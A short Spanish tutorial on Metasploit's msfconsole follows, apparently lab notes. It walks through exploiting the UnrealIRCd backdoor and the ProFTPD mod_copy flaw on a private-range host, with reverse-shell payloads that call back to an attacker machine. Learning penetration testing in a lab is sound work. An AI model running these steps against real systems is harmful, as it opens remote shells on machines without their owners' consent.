Vamos a hacer uso del reporte generado con Nessus.

Para visualizar las opciones de msfconsole:

Tiene muchas opciones aunque lo más optimo es centrarse en las core.
Una de las utilidades, una de las herramientas que viene incorporadas en el framework es la herramienta Connect, es algo similar y análogo a Netcat.
connect 192.xxx.xxx.xxx 5555
Para buscar exploits podemos usar:
search unrealirc

Para utilizarlo:
use exploit/unix/irc/unreal_ircd_3281_backdoor

Para ir hacia atrás:
back
Para configurar opciones del exploit:
show options

show advanced

Seleccionar host de la máquina objetivo
set rhosts 192.168.20.128
Seleccionar el payload:
show payloads
set payload payload/cmd/unix/reverse


Configurar el payload:
set lhost 192.168.20.131

Ejecutar exploit:
exploit

search proftpd

use exploit/unix/ftp/proftpd_modcopy_exec
show options

set rhosts 192.168.20.128
show payloads
set payload/cmd/unix/reverse_perl

set lhost 192.168.20.131
exploit
